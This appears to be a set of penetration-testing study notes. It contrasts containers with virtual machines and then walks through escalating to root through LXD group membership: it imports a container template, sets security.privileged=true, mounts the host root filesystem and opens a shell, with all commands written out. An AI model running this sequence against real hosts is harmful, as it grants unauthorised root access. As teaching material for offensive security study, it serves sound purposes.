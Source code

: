 Containers operate at the operating system level and virtual machines at the hardware level. 
* Containers thus share an operating system and isolate application processes from the rest of the system, 
* while classic virtualization allows multiple operating systems to run simultaneously on a single system.

Isolation and virtualization are essential because they help to manage resources and security aspects as efficiently as possible. 
 * they facilitate monitoring to find errors in the system that often have nothing to do with newly developed applications. 
 * Another example would be the isolation of processes that usually require root privileges. 
	 * Such an application could be a web application or API that must be isolated from the host system to prevent escalation to databases.

## Linux Containers

Linux Containers (`LXC`) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them. 
* LXC is very popular due to its ease of use and has become an essential part of IT security.

By default, `LXC` consume fewer resources than a virtual machine and have a standard interface, making it easy to manage multiple containers simultaneously. 
* A platform with `LXC` can even be organized across multiple clouds, providing portability and ensuring that applications running correctly on the developer's system will work on any other system. 
* In addition, large applications can be started, stopped, or their environment variables changed via the Linux container interface.

The ease of use of `LXC` is their most significant advantage compared to classic virtualization techniques. 
* However, the enormous spread of `LXC`, an almost all-encompassing ecosystem, and innovative tools are primarily due to the Docker platform. 
	* The entire setup, from creating container templates and deploying them, configuring the operating system and networking, to deploying applications, remains the same.

#### Linux Daemon
Linux Daemon ([LXD](https://github.com/lxc/lxd)) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container.
* Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group. We can find this out with the following command:
```shell-session
container-user@nix02:~$ id
```

From here on, there are now several ways in which we can exploit `LXC`/`LXD`. 
* We can either create our own container and transfer it to the target system or use an existing container. 
* Unfortunately, administrators often use templates that have little to no security. 
	* This attitude has the consequence that we already have tools that we can use against the system ourselves.

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Such templates often do not have passwords, especially if they are uncomplicated test environments. 
* These should be quickly accessible and uncomplicated to use. 

* If we are a little lucky and there is such a container on the system, it can be exploited. For this, we need to import this container as an image.
```shell-session
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list
```

After verifying that this image has been successfully imported, 
* we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. 
	* This flag disables all isolation features that allow us to act on the host.
```shell-session
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.

```shell-session
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root
```

Alpine does not support /bin/bash it does however support /bin/sh
